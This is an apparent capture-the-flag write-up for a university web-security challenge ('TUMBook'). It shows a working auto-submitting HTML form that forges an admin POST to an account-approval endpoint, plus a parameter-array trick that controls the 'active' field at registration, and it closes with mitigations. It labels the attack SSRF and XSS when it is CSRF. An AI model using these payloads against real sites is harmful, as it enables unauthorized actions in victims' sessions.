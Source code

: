 ```yaml
---
layout: default
---
```

# TUMBook
## Description
Wow, is this the new Facebook? Amazing. And it even gives out free flags for its most active members. Truly revolutionary.

However, there seem to be some issues with account activation. Maybe you can contact the admin and ask for tech-support?

Hint 1: The admin uses a recent version of the Chromium browser.

Hint 2: The admin will click on links but only if their standalone.


## Overview
The website offers the following actions:
- register with username and password
- login with registered credentials
- logout
- support: Send the admin a link which he will click (rf to hint 2).

After the login one is redirected to the subpage `/flag` which states:

Your account is inactive!


The code of this challenge, again accessible, reveals that there is an endpoint to "activate" an account, but this is only accessible for admins:
```python
app.post("/approveuser", (req, res) => {
	if(req.session.is_admin) {
		console.log("Approving user", req.body.username)
		db.run('UPDATE users SET active = 1 WHERE username = ?', req.body.username);
	} else {
		console.log("Non-admin tried approving user", req.body.username)
	}
	res.redirect("/approveuser")
});
```

## Vulnerability
What we have: We can make the admin click on arbitrary urls.
What we need: The admin to make a post request to /approveuser with our own username.

This is clearly a SSRF (Server-Side request forgery) situation.

Even though it sounds quite obvious what to do, note that we need to do a *POST* request and clicking on urls are *GET* requests.

So we could change our requirement to succeed to js execution (XSS).
This should be feasible as the admin clicks on arbitrary links, also cross sites and hence we can host our own HTML code, similar to that:
```html

<!DOCTYPE html>

<html>
	<head>
		<title>Stand-alone POST to approve Username</title>
	</head>
	<body>
		<form id="autoForm" action="https://xss01.websec.sec.in.tum.de/approveuser" method="POST">
			<input type="hidden" name="username" value="Username">
		</form>
		<script>
			document.getElementById('autoForm').submit();
		</script>
	</body>
</html>
```
*note:* If you don't want to host code, you can also use a base64 encoded `data:url` instead.

This code, once visited, makes a POST request to the approveuser endpoint with our username in the context of the admin.


### Alternative (SQL)
There was also another unintended solution. 
It was unintended cause it was the vuln on purpose in the course qualification challenge, and twice would be lame.

```js
app.post('/register', (req, res) => {
	db.get("SELECT * FROM users WHERE username = ?", req.body.username, (err, row) => {
		if(row === undefined) {
			if(req.body.password == req.body.passwordv2) {
				bcrypt.hash(req.body.password, 10, function(err, hash) {
				var stmt = db.prepare('INSERT INTO users (username, password, active) VALUES (?,?,?)');
				stmt.run(req.body.username, hash, 0);
				res.redirect("/");
```

If we craft username as an array, we control `active`.
This is a weird design of arguments passing to me.



## Mitigations
The server could use CSRF tokens, which would kill the first, intended attack immediately.
Also a strict SameSite policy on cookies would help.
